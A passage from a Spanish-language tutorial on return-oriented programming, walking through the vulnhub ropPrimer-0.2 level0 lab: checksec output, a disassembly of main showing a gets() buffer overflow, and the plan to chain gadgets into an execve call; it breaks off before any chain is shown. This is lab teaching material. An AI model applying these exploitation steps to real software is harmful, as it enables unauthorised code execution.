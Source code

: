```python

print payload
```

**EJEMPLO 2**

De la máquina de vulnhub ropPrimer-0.2, el caso level0.		
Ref: https://www.vulnhub.com/entry/rop-primer-02,114/

Este ejercicio lo intenté resolver aplicando la primera técnica explicada aquí, pero no se por que razón en la MV me daba "Segmentation fault" mientras que en el gdb funcionaba ya que lanzaba un proceso con una shell nueva. 
Veamos previamente lo que yo intenté y luego la solución mucho más sencilla y elegante que encontré después.
El binario level0 viene sin protecciones casi, pero yo intentaba aplicar la llamada a execve explicada al principio. 
Protecciones:

``` 
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
``` 
El ensamblado muestra el típico buffer overflow:

``` 
Dump of assembler code for function main:
   0x08048254 <+0>:	push   ebp
   0x08048255 <+1>:	mov    ebp,esp
   0x08048257 <+3>:	and    esp,0xfffffff0
   0x0804825a <+6>:	sub    esp,0x30
   0x0804825d <+9>:	mov    DWORD PTR [esp],0x80ab668
   0x08048264 <+16>:	call   0x8048f40 <puts>
   0x08048269 <+21>:	mov    DWORD PTR [esp],0x80ab680
   0x08048270 <+28>:	call   0x8048d80 <printf>
   0x08048275 <+33>:	lea    eax,[esp+0x10]
   0x08048279 <+37>:	mov    DWORD PTR [esp],eax
   0x0804827c <+40>:	call   0x8048db0 <gets>
   0x08048281 <+45>:	lea    eax,[esp+0x10]
   0x08048285 <+49>:	mov    DWORD PTR [esp+0x4],eax
   0x08048289 <+53>:	mov    DWORD PTR [esp],0x80ab698
   0x08048290 <+60>:	call   0x8048d80 <printf>
   0x08048295 <+65>:	mov    eax,0x0
   0x0804829a <+70>:	leave  
   0x0804829b <+71>:	ret    
End of assembler dump.
``` 
El binario "peta" cuando le metes más de 44 caracteres. Se trata ahora de buscar gadgets para conseguir la llamada a la función execve, que recordemos tiene que contener lo siguiente en los registros:
